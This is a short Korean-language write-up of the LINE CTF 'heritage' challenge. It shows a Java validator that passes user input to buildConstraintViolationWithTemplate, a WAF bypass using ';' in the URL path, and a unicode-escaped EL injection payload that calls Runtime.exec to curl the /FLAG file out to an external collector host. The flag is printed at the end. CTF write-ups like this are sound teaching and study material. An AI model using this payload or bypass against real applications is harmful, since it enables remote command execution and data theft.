 ## heritage

```java
@RequestMapping({"/api/internal"})
public class InternalController extends BaseController {
  private static final Logger log = LoggerFactory.getLogger(me.line.ctf.controller.InternalController.class);
  
  @PostMapping({"/"})
  public String index(@ValidateName @RequestBody RequestDto name) {
    log.info("{} is here !", name);
    return "Welcome " + name.getName() + "!";
  }
}
```
```java
public boolean isValid(String value, ConstraintValidatorContext context) {
    if (StringUtils.isEmpty(value) || PATTERN.matcher(value).matches())
      return true; 
    context.buildConstraintViolationWithTemplate(
        String.format("%s", new Object[] { value })).addConstraintViolation();
    return false;
  }
```
`/api/internal` 경로로 접근하였을 때 실행되는 internalController에서 
Name 파라미터에 대한 validator가 동작할 때 context.buildConstraintViolationWithTemplate을 사용하여 
EL Template injection이 발생합니다. 

해당 경로에 접근하기 위해선 gw에 존재하는 WAF를 우회해야하는데 이는 `;`를 이용하여 우회하는 것이 가능합니다.
```
http://35.200.117.55:20080/api/external/..;/internal;/
```

Template engine엔 sandbox가 존재하지 않아서 java.lang.Runtime 클래스를 이용하여 commnd 실행이 가능합니다.
```json
{"name":"${''.getClass().forName('java.lang.Runtim\u0065').getM\u0065thods()[6].invok\u0065(''.getClass().forName('java.lang.Runtim\u0065')).\u0065xec('curl https://enllwt2ugqrt.x.pipedream.net/ -F=@/FLAG')}"}
```

```
LINECTF{7988de328384f8a19998923a87aa053f}
```